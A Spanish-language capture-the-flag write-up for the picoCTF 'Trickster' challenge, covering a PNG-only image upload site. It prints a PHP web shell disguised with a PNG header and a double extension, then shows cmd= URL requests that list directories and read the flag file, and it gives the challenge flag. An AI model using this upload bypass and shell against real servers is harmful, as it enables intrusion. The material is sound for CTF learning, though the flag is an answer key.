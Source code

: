 ### Descripción
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
I found a web app that can help process images: PNG images only!
Try it [here](http://atlas.picoctf.net:64745/)!
### Solución
Una vez desplegada la instancia del desafío, se hace clic en el enlace mostrado, teniendo la carga del siguiente sitio web: 

![[Pasted image 20250401192116.png]]

En dicho sitio se pueden subir solo imágenes en formato **.png**, donde se realiza una prueba con una respectiva imagen, la cual resulta exitosa, pero como no podemos hacer algo más, ya que si se intenta ingresar a otras secciones del sitio, no deja, se procede a revisar el archivo **robots.txt**, resultando en el siguiente enlace:

```
http://atlas.picoctf.net:64745/robots.txt
```

Una vez colocado en la barra del buscador, nos muestra lo siguiente

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

Por lo que se prueban ambas opciones, siendo la primera un texto que nos dice que los números mágicos que permiten identificar un archivo .png son "50, 4E, 47", es por eso que se decide consultar ChatGPT para pedirle crear un web shell simple de php, resultando en el siguiente:

```php
PNG
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

Una vez guardado como **trickster.png.php**, se procede a subirlo al sitio web, donde como podemos ver en la siguiente imagen se subió de forma correcta:

![[Pasted image 20250401192901.png]]

Una vez cargado en la plataforma, procedemos a ejecutarlo con ayuda del link del sitio web, donde solo se agrega el nombre del archivo, seguido de un signo de cierre de interrogación, por ultimo el comando precedido por *cmd=*, tal como se aprecia en seguida:

```
http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=ls
```

Es entonces que se nos presenta esto en pantalla:

![[Pasted image 20250401193326.png]]

Para saber donde nos encontramos, hacemos uso del comando **pwd**, como se aprecia:

```
http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=pwd
```

Dándonos el siguiente resultado después de la ejecución del comando:

![[Pasted image 20250401193406.png]]

Se vuelve a emplear el comando **ls** para saber el contenido del directorio donde nos encontramos en ese momento haciendo uso del siguiente link:

```
http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=ls%20..
```

Arrojándonos el siguiente resultado en pantalla:

![[Pasted image 20250401193602.png]]

Por último, para ver el contenido del archivo .txt de nombre raro, se emplea el comando **cat**:

http://atlas.picoctf.net:64745/uploads/trickster.png.php?cmd=cat%20../GQ4DOOBVMMYGK.txt

Mostrándonos lo siguiente:

![[Pasted image 20250401193549.png]]

Obteniendo así la bandera que soluciona este reto:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}
```
### Notas Adicionales

### Referencias
